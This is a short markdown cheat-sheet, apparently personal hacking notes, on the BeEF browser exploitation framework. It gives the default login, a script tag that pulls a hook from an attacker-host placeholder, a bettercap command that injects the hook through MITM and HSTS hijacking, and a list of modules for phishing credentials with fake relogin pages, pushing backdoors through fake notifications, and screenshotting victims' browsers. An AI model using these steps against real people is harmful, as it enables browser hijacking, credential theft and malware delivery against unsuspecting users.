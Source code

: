 ```yaml
---
tags:
- security
- tool
- web
title: BeEF
---
```


BeEF : Browser Exploitation Framework  
Makes use of JS to hook the target browser. Works on any platform as long as target device browser supported JS

Username : beef  
Password : password

<u>Hook URL</u>

````bash
<script src="http://<attacker-ip-address>:3000/hook.js"></script>
````

The URL can be sent to the target using various methods like Social Engineering, MITM attack with DNS spoofing, XSS or JS Injection after performing MITM attack

### Tabs Explained

Detail Tab : Browser Details  
Logs : Events that occurred in the browser  
Commands : Run various commands  
Proxy : Allows to use hooked browser as a proxy  
XssRays : Shows if page has any XSS vulnerabilities  
Network : Overview of current network

<u>Load Hook Script on all Sites (MITM + JS Injection)</u>

Inject Beef Code : <https://drive.google.com/file/d/1uCeGZKyP1Cj2UIORqYMrlFTyi9dLaCUa/view?usp=sharing>  
Add the JS Script in the HSTS Hijack caplet file and perform MITM attack

````bash
bettercap -iface <interface> -caplet <sniff-data-cap-file>
hstshijack/hstshijack (Run HSTS Caplet)
````

### Commands

1. <u>Create Alert Dialog</u>  
   Create an dialog box on the target browser
2. <u>Raw JavaScript</u>  
   Execute JS code on the target browser
3. <u>Spyder Eye</u>  
   Take screenshot of the target browser screen
4. <u>Redirect Browser</u>  
   Redirect the target to an different webpage
   Can be used to redirect to download an backdoor, fake login page, etc.
5. <u>Get Visited URL</u>  
   Check of a URL was visited by the target
6. <u>Pretty Theft</u>  
   Create fake relogin page to steal credentials
7. <u>Fake Notification Bar</u>  
   Send Backdoor, malicious code to user using an fake notification message  
   If sending an backdoor ensure to start "Multi Handler" to listen to the connection